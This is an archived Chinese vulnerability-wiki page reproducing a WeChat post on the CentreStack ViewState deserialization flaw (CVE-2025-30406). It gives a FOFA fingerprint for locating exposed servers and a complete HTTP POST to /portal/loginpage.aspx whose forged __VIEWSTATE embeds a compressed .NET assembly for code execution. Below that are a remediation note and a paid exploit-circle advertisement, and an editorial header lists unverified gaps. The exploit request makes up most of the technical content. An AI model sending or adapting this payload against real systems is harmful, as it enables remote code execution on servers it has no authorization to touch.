





# CentreStack 反序列化漏洞 (CVE-2025-30406)

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- HTTP头体缺空行、Host空、固定长度
- 未给machineKey取得/签名生成环境前提
- 静态URL/base64/gzip解码得到3584字节.NET DLL含HttpResponse.Headers与ProjectDiscovery/cve-2025-30406标记，应补明确响应头判据而不是只有截图，未运行载荷
- FOFA未入元数据
- 缺受影响范围和官方修复出处
- 升级与轮换machineKey分为补丁和补充处置非都临时措施
- 清付费圈推广

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

Superhero  Nday Poc   2025-04-20 16:02  
  
  
  
  
  
  
  
内容仅用于学习交流自查使用，由于传播、利用本公众号所提供的  
POC  
信息及  
POC对应脚本  
而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号Nday Poc及作者不为此承担任何责任，一旦造成后果请自行承担！  
  
  
**01**  
  
**漏洞概述**  
  
  
该应用程序在 IIS web.config 文件中使用了硬编码或保护不当的 machineKey，而该文件负责保护 ASP.NET ViewState 数据。” 如果攻击者获取或预测了 machineKey，他们就可以伪造能够通过完整性检查的 ViewState 有效载荷。在某些情况下，这可能会导致 ViewState 反序列化攻击，从而可能导致 Web 服务器上的远程代码执行 (RCE)  
**02******  
  
**搜索引擎**  
  
  
FOFA:  
```
header_hash="989678933"
```  
  
  
  
  
  
**03******  
  
**漏洞复现**  
```http
POST /portal/loginpage.aspx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 8545
__LASTFOCUS=&__VIEWSTATE=%2FwEyoDEAAQAAAP%2F%2F%2F%2F8BAAAAAAAAAAwCAAAASVN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODkFAQAAAIQBU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuU29ydGVkU2V0YDFbW1N5c3RlbS5TdHJpbmcsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dBAAAAAVDb3VudAhDb21wYXJlcgdWZXJzaW9uBUl0ZW1zAAMABgiNAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkNvbXBhcmlzb25Db21wYXJlcmAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQgCAAAAAgAAAAkDAAAAAgAAAAkEAAAABAMAAACNAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkNvbXBhcmlzb25Db21wYXJlcmAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQEAAAALX2NvbXBhcmlzb24DIlN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xkZXIJBQAAABEEAAAAAgAAAAYGAAAAAAYHAAAA9CA8UmVzb3VyY2VEaWN0aW9uYXJ5DQp4bWxucz0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2L3hhbWwvcHJlc2VudGF0aW9uIg0KeG1sbnM6eD0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2L3hhbWwiDQp4bWxuczpzPSJjbHItbmFtZXNwYWNlOlN5c3RlbTthc3NlbWJseT1tc2NvcmxpYiINCnhtbG5zOnI9ImNsci1uYW1lc3BhY2U6U3lzdGVtLlJlZmxlY3Rpb247YXNzZW1ibHk9bXNjb3JsaWIiDQp4bWxuczppPSJjbHItbmFtZXNwYWNlOlN5c3RlbS5JTzthc3NlbWJseT1tc2NvcmxpYiINCnhtbG5zOmM9ImNsci1uYW1lc3BhY2U6U3lzdGVtLklPLkNvbXByZXNzaW9uO2Fzc2VtYmx5PVN5c3RlbSINCj4NCiAgIDxzOkFycmF5IHg6S2V5PSJkYXRhIiB4OkZhY3RvcnlNZXRob2Q9InM6Q29udmVydC5Gcm9tQmFzZTY0U3RyaW5nIj4NCiAgICAgIDx4OkFyZ3VtZW50cz4NCiAgICAgICAgIDxzOlN0cmluZz5INHNJQUFBQUFBQUVBTzFXM1U4Y1ZSVC96YksweTFJSXRGcExVc3NnMUZBL0p0dXlOdG9ZUzltRmdvRkNXQXJHa01EczdCV21tWjNaek16aTBnZXRENXI2WWpScGZETSttVFNtRHpWcFltTmk5QjhndnVpTFQzM3hXVjl0VlB6ZE83T3diRGNwTDZhSjRTejMzSFBQUFIrL2M3K0dtYmMvUlJ1QUpOdjJObkFmRVkzaThYU0RyYnYvdTI3YzY5Z2F1SzlOYncwc3JOdUJYdkc5TmQ4czY1YnB1bDZvRjRYdVYxM2Rkdlg4YkVFdmV5VmhkSFdsaCtJWWMrUEF0TmFHci9yL1hxdkhmWURFUUtmV0NSeEMxRWlHZE5CM2dQVW9PUkhoQm5aN0JTb1JpVzBZL1ZDYXlyL2RmcWRUOVBNZ3NCUVhmRHZSb3NoVjRNZysxdUlSSXI1VXd6REY4V1REMkFoRkxXU2ZUVWEycXM2bS9GU3ZHbjdnVzRpeEVhTXFOTFhYanVwUnd4ZU9aOFZZVitOWVJ4NnhHMnVHMlJOdnhLUnlhVWVOU1pkNUlMVDkxTmlDUGs4TTB6czlUSmhwcjEweUZwYjJHYTdpYzZrcjNtRU9YeUNRd3B0aldweEZ3dHpJR2hsakpETnk5aldwYVlkRGZwTFRnKzhCTjlrUFNia1ErcmE3RmtpTE82d3Z6Mzd3YWdGL0pLSTlIYng4ZFVycTVJRmVsdU14eHl2R3VHaWlYWDRLNkpDRGg2ZEhjRHlxc2I3c1VqN2NJTGNwcjNTTThCRE80RG55Ulp3bjN5QlA0emErSVArUnZCdC80bGRscDhWYy9ucndqS3BFeW5PNjFIOTBJcU1pOWlKRG56N0lVWWZpQTdpSGsrUmJiR2ZRcFQyUHMralRYb1NCVGtvR2p1RUNramVhMS9vV0dzNjl5dHVuK2tiZE1lSnIxbW1zWllkZW4vRktWVWU4QWQrcU9jSjJxMGJKY1RDT2NtQjV2bU1YVWRnTVFsSEdiUEdhc0VJWVZ1ajVzYzZZcjdxaFhSWkd6aXRYYkVmNEJlRnYySllJRUNuTTBQYmNlZUdZTlNVRmwwTHVYN0VhQ3NTTzBveFRSZHV4dzgzZDJUcVNlcG9sVWNSa0dGWnlucXR1elpvSVYzSlYzeGR1cVBUeklxZ3d2RkFUTzRQWU9lYzVEb0hML0VhaElpemJkT3pyb29Rclpsa3NtazVWN0Jvby8wbGhsb1FmSUtBOEpRc25EY3pCaDRkckVMQVE4dHpaQ0NoNVBBbEVpMDNnV1V2SkwrTWM5L01jWHFFMFFpbkxkbDZkaXQ4bWZ0cis3SnNQSnI2ODlja1BYdy8xUDBUcTIrdkxpMzNaQngrMzZkQ1N1cWFsVW5jdnJyemYrMHY2QXZmcWFHOVN4OUduSmV0cjF4TmFkM2RLaTYvOUtYbWdGaExIbDN5emNzVnp4MnVXcUVqMEMrdSs5MjRnYy8wMXVMdTlwK3J2Wmd1cTMvMjl0Skx6L0x6anpKaTJHeDBDSWRTUmtMUjltckY2V25rZDBQK0JOTFc1SjZLdjZCNjlQRmVaRm5wSjh0dngxaWkvNHczZnIrbEVsbndSQmF5UWoyT2UwaFJtY1lYaktmSUp5cEsrVC83K1Q2dXZ6Y1c0bCs5VzgyYzVyekl2d3VUZG0rQmRkSGp6cHVEaUhkNUlTVVBLYTRHekpyVUI1MDNlV3B1emJoemhidktPSm1NVXFQYzV3NnZmSXRKTlpaUForV1ZSbEd1QWw0aEkyN0hQczhuWFFNYXA3TW1qcXpWTE5kZ3VxdmNpYUxESjhIWGZiWHlPMFVWN2lTRlV0aTZ4TzF3dkUyV09RWTJGbW9vbFVWZnBWZUlvdXAzREN0YzA1OWFVVjQ1WktueWRKTEkxckNPTU1lVlZqdGxZYjhjNTZoamRmZVhLcXJxaWQ3SEVPZmt1TmxmWFhOdXJ5dWNTTFFKYWxybWFEdEhwai9VN29QK1E5T2ovcjB6MlNRTTVvQ2RCL3dMMVplTWxBQTRBQUE9PTwvczpTdHJpbmc%2BDQogICAgICA8L3g6QXJndW1lbnRzPg0KICAgPC9zOkFycmF5Pg0KICAgPGk6TWVtb3J5U3RyZWFtIHg6S2V5PSJpbnB1dFN0cmVhbSI%2BDQogICAgICA8eDpBcmd1bWVudHM%2BDQogICAgICAgICA8U3RhdGljUmVzb3VyY2UgUmVzb3VyY2VLZXk9ImRhdGEiPjwvU3RhdGljUmVzb3VyY2U%2BDQogICAgICA8L3g6QXJndW1lbnRzPg0KICAgPC9pOk1lbW9yeVN0cmVhbT4NCiAgIDxjOkdaaXBTdHJlYW0geDpLZXk9Imd6aXBTdHJlYW0iPg0KICAgICAgPHg6QXJndW1lbnRzPg0KICAgICAgICAgICAgPFN0YXRpY1Jlc291cmNlIFJlc291cmNlS2V5PSJpbnB1dFN0cmVhbSI%2BPC9TdGF0aWNSZXNvdXJjZT4NCiAgICAgICAgICAgIDxjOkNvbXByZXNzaW9uTW9kZT4wPC9jOkNvbXByZXNzaW9uTW9kZT4NCiAgICAgIDwveDpBcmd1bWVudHM%2BDQogICA8L2M6R1ppcFN0cmVhbT4NCiAgIDxzOkFycmF5IHg6S2V5PSJidWYiIHg6RmFjdG9yeU1ldGhvZD0iczpBcnJheS5DcmVhdGVJbnN0YW5jZSI%2BDQogICAgICA8eDpBcmd1bWVudHM%2BDQogICAgICAgICA8eDpUeXBlIFR5cGVOYW1lPSJzOkJ5dGUiLz4NCiAgICAgICAgIDx4OkludDMyPjM1ODQ8L3g6SW50MzI%2BDQogICAgICA8L3g6QXJndW1lbnRzPg0KICAgPC9zOkFycmF5Pg0KICAgPE9iamVjdERhdGFQcm92aWRlciB4OktleT0idG1wIiBPYmplY3RJbnN0YW5jZT0ie1N0YXRpY1Jlc291cmNlIGd6aXBTdHJlYW19IiBNZXRob2ROYW1lPSJSZWFkIj4NCiAgICAgIDxPYmplY3REYXRhUHJvdmlkZXIuTWV0aG9kUGFyYW1ldGVycz4NCiAgICAgICAgIDxTdGF0aWNSZXNvdXJjZSBSZXNvdXJjZUtleT0iYnVmIj48L1N0YXRpY1Jlc291cmNlPg0KICAgICAgICAgPHg6SW50MzI%2BMDwveDpJbnQzMj4NCiAgICAgICAgIDx4OkludDMyPjM1ODQ8L3g6SW50MzI%2BDQogICAgICA8L09iamVjdERhdGFQcm92aWRlci5NZXRob2RQYXJhbWV0ZXJzPg0KICAgPC9PYmplY3REYXRhUHJvdmlkZXI%2BDQogICAgPE9iamVjdERhdGFQcm92aWRlciB4OktleT0iYXNtTG9hZCIgT2JqZWN0VHlwZT0ie3g6VHlwZSByOkFzc2VtYmx5fSIgTWV0aG9kTmFtZT0iTG9hZCI%2BDQogICAgICAgIDxPYmplY3REYXRhUHJvdmlkZXIuTWV0aG9kUGFyYW1ldGVycz4NCiAgICAgICAgICAgIDxTdGF0aWNSZXNvdXJjZSBSZXNvdXJjZUtleT0iYnVmIj48L1N0YXRpY1Jlc291cmNlPg0KICAgICAgICA8L09iamVjdERhdGFQcm92aWRlci5NZXRob2RQYXJhbWV0ZXJzPg0KICAgIDwvT2JqZWN0RGF0YVByb3ZpZGVyPg0KICAgIDxPYmplY3REYXRhUHJvdmlkZXIgeDpLZXk9InR5cGVzIiBPYmplY3RJbnN0YW5jZT0ie1N0YXRpY1Jlc291cmNlIGFzbUxvYWR9IiBNZXRob2ROYW1lPSJHZXRUeXBlcyI%2BDQogICAgICAgIDxPYmplY3REYXRhUHJvdmlkZXIuTWV0aG9kUGFyYW1ldGVycy8%2BDQogICAgPC9PYmplY3REYXRhUHJvdmlkZXI%2BDQogICAgPE9iamVjdERhdGFQcm92aWRlciB4OktleT0iZmlyc3RUeXBlIiBPYmplY3RJbnN0YW5jZT0ie1N0YXRpY1Jlc291cmNlIHR5cGVzfSIgTWV0aG9kTmFtZT0iR2V0VmFsdWUiPg0KICAgICAgICA8T2JqZWN0RGF0YVByb3ZpZGVyLk1ldGhvZFBhcmFtZXRlcnM%2BDQogICAgICAgICAgICA8czpJbnQzMj4wPC9zOkludDMyPg0KICAgICAgICA8L09iamVjdERhdGFQcm92aWRlci5NZXRob2RQYXJhbWV0ZXJzPg0KICAgIDwvT2JqZWN0RGF0YVByb3ZpZGVyPg0KICAgIDxPYmplY3REYXRhUHJvdmlkZXIgeDpLZXk9ImNyZWF0ZUluc3RhbmNlIiBPYmplY3RJbnN0YW5jZT0ie1N0YXRpY1Jlc291cmNlIGZpcnN0VHlwZX0iIE1ldGhvZE5hbWU9Ikludm9rZU1lbWJlciI%2BDQogICAgICAgIDxPYmplY3REYXRhUHJvdmlkZXIuTWV0aG9kUGFyYW1ldGVycz4NCiAgICAgICAgICAgIDx4Ok51bGwvPg0KICAgICAgICAgICAgPHI6QmluZGluZ0ZsYWdzPjUxMjwvcjpCaW5kaW5nRmxhZ3M%2BDQogICAgICAgICAgICA8eDpOdWxsLz4NCiAgICAgICAgICAgIDx4Ok51bGwvPg0KICAgICAgICAgICAgPHg6TnVsbC8%2BDQogICAgICAgICAgICA8eDpOdWxsLz4NCiAgICAgICAgICAgIDx4Ok51bGwvPg0KICAgICAgICAgICAgPHg6TnVsbC8%2BDQogICAgICAgIDwvT2JqZWN0RGF0YVByb3ZpZGVyLk1ldGhvZFBhcmFtZXRlcnM%2BDQogICAgPC9PYmplY3REYXRhUHJvdmlkZXI%2BDQo8L1Jlc291cmNlRGljdGlvbmFyeT4EBQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQdtZXRob2QwB21ldGhvZDEDAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5L1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyCQgAAAAJCQAAAAkKAAAABAgAAAAwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5BwAAAAR0eXBlCGFzc2VtYmx5BnRhcmdldBJ0YXJnZXRUeXBlQXNzZW1ibHkOdGFyZ2V0VHlwZU5hbWUKbWV0aG9kTmFtZQ1kZWxlZ2F0ZUVudHJ5AQECAQEBAzBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRlRW50cnkGCwAAAMgBU3lzdGVtLkZ1bmNgMltbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLk9iamVjdCwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0GDAAAAEttc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODkKBg0AAABYUHJlc2VudGF0aW9uRnJhbWV3b3JrLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49MzFiZjM4NTZhZDM2NGUzNQYOAAAAIFN5c3RlbS5XaW5kb3dzLk1hcmt1cC5YYW1sUmVhZGVyBg8AAAAFUGFyc2UJEAAAAAQJAAAAL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyBwAAAAROYW1lDEFzc2VtYmx5TmFtZQlDbGFzc05hbWUJU2lnbmF0dXJlClNpZ25hdHVyZTIKTWVtYmVyVHlwZRBHZW5lcmljQXJndW1lbnRzAQEBAQEAAwgNU3lzdGVtLlR5cGVbXQkPAAAACQ0AAAAJDgAAAAYUAAAAIlN5c3RlbS5PYmplY3QgUGFyc2UoU3lzdGVtLlN0cmluZykGFQAAACJTeXN0ZW0uT2JqZWN0IFBhcnNlKFN5c3RlbS5TdHJpbmcpCAAAAAoBCgAAAAkAAAAGFgAAAAdDb21wYXJlCQwAAAAGGAAAAA1TeXN0ZW0uU3RyaW5nBhkAAAArSW50MzIgQ29tcGFyZShTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQYaAAAAMlN5c3RlbS5JbnQzMiBDb21wYXJlKFN5c3RlbS5TdHJpbmcsIFN5c3RlbS5TdHJpbmcpCAAAAAoBEAAAAAgAAAAGGwAAAHFTeXN0ZW0uQ29tcGFyaXNvbmAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQkMAAAACgkMAAAACRgAAAAJFgAAAAoLibujtqUhA%2BW5jl2TpMa64%2FDxwzA5qSAh%2FW6ukat8VkI%3D
```  
  
  
  
  
**04**  
  
**自查工具**  
  
  
nuclei  
  
  
  
afrog  
  
  
  
xray  
  
  
  
  
**05******  
  
**修复建议**  
  
  
1、关闭互联网暴露面或接口设置访问权限  
  
2、  
更新至 16.4.10315.56368 并轮换machineKey作为零时缓解措施  
  
  
**06******  
  
**内部圈子介绍**  
  
  
【Nday漏洞实战圈】🛠️   
  
专注公开1day/Nday漏洞复现  
 · 工具链适配支持  
  
 ✧━━━━━━━━━━━━━━━━✧   
  
🔍 资源内容  
  
 ▫️ 整合全网公开  
1day/Nday  
漏洞POC详情  
  
 ▫️ 适配Xray/Afrog/Nuclei检测脚本  
  
 ▫️ 支持内置与自定义POC目录混合扫描   
  
🔄 更新计划   
  
▫️ 每周新增7-10个实用POC（来源公开平台）   
  
▫️ 所有脚本经过基础测试，降低调试成本   
  
🎯 适用场景   
  
▫️ 企业漏洞自查 ▫️ 渗透测试 ▫️ 红蓝对抗   
▫️ 安全运维  
  
✧━━━━━━━━━━━━━━━━✧   
  
⚠️ 声明：仅限合法授权测试，严禁违规使用！  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
